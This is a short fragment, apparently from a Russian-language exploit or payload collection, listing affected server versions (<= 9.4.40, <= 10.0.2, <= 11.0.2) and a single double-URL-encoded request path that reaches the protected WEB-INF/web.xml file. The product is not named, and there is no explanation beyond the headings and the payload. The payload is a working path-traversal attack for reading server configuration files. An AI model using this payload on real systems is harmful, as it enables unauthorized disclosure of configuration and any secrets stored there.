<languages />

Затронутая версия
-----------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml